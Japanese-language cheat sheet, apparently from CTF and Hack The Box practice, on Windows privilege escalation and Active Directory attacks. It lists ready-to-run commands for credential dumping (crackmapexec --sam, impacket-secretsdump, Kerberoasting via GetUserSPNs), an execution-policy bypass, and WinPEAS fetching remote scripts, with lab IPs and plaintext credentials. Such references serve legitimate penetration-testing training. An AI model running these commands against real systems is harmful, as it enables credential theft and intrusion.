 ## 目次
1. [基本チェック](#基本チェック)
2. [自動化スクリプト](#自動化スクリプト)
    - [WinPeas](#winpeas)
    - [Jaws-enum.ps1](#jaws-enumps1)
    - [PowerUp.ps1](#powerupps1)
    - [PrivescCheck.ps1](#privesccheckps1)
3. [crackmapexec](#crackmapexec)
4. [Bloodhound](#bloodhound)
5. [Impacket](#impacket)
    - [secretdump](#secretdump)
    - [GetUserSPNs](#getuserspns)
6. [WinPEAS](#winpeas)
    - [AutoLogin](#autologin)
    - [パラメータ例](#パラメータ例)
7. [Sherrock.ps1](#sherrockps1)

---

## 基本チェック

```bash
whoami
whoami /priv
net user username
net user /group
net user /domain
host
hostname
systeminfo
```

> **注:** `hostfix`はWindows Updateの履歴を指します。

---

## 自動化スクリプト

## WinPeas
- [WinPeasのダウンロード](https://github.com/peass-ng/PEASS-ng/releases/tag/20230618-1fa055b6)
- コマンド: `winpeas.bat`

## Jaws-enum.ps1

## PowerUp.ps1

## PrivescCheck.ps1
- [PrivescCheckのダウンロード](https://github.com/itm4n/PrivescCheck)

**基本チェックのみ:**
```bash
. .\PrivescCheck.ps1; Invoke-PrivescCheck
```

**拡張チェック + すべてのレポート:**
```bash
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML
```

**オールインワンコマンド:**
```bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"
```

---

## crackmapexec

```bash
crackmapexec smb 10.10.11.14 -u maya -p "m4y4ngs4ri" --sam
```
![image](https://github.com/user-attachments/assets/e658982a-7428-41b9-9356-ae05e7a18e6e)

---

## Bloodhound

### 初期侵入後の調査
```bash
sudo neo4j console
```
- メニューからBloodhoundを起動
  - ※コマンドだとなぜかエラーになる
- 被害者マシンで`SharpHound.exe`または`SharpHound.ps1`を実行  
  ![image](https://github.com/user-attachments/assets/753deb1f-f895-4105-9d16-659ea37b9c1e)

- ZIPファイルが作成されるのでダウンロード  
![image](https://github.com/user-attachments/assets/61565117-dd26-4eda-a52e-de79b67a3623)

- 解凍せずにBloodhoundにアップロード
- すでに権限を奪えているユーザーは「Mark User as High Value」にチェック  
![image](https://github.com/user-attachments/assets/d390ab8c-0a40-4f9a-907e-1736ea5b4abd)

### リモートの場合
```bash
bloodhound-python
```
- Dockerでも可能

---

### Impacket

#### secretdump
```bash
impacket-secretsdump htb/svc-alfresco:s3rvice@10.10.10.161
```
![image](https://github.com/user-attachments/assets/645b384d-4637-4ed7-a665-6427d228a7e7)

#### GetUserSPNs
```bash
impacket-GetUserSPNs -request -dc-ip active.htb active.htb/svc_tgs
```
- ※ユーザパスワードが必要
![image](https://github.com/user-attachments/assets/579c09d0-8c9c-4049-b489-a3a5d9fa7e80)

---

## WinPEAS

### AutoLogin
![image](https://github.com/user-attachments/assets/05666adb-b7b4-42ac-a6e2-514a56c45e28)

## パラメータ例
ヘルプを表示
```bash
winpeas.exe -h
```
すべてのチェックを実行（ただし、LOLBASとlinpeas.shの追加の遅いチェックは除く） (CTFs用)
```bash
winpeas.exe
```
systeminfoとuserinfoのチェックのみ実行
```bash
winpeas.exe systeminfo userinfo
```
出力をカラーにしない
```bash
winpeas.exe notcolor
```
ドメイン情報も列挙
```bash
winpeas.exe domain
```
各テスト間でユーザー入力を待機
```bash
winpeas.exe wait
```
追加のデバッグ情報を表示
```bash
winpeas.exe debug
```
出力を標準出力ではなくout.txtにログ
```bash
winpeas.exe log
```
# 追加のlinpeasチェックを実行（デフォルトのWSLディストリビューションでlinpeas.shを実行）カスタムURLでlinpeas.shを実行（指定がない場合、デフォルトURLは: https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/linPEAS/linpeas.sh）
```bash
winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh
```
追加のLOLBAS検索チェックも実行
```bash
winpeas.exe -lolbas
```

---

## Sherrock.ps1

- PowerShell周りの脆弱性列挙ツール
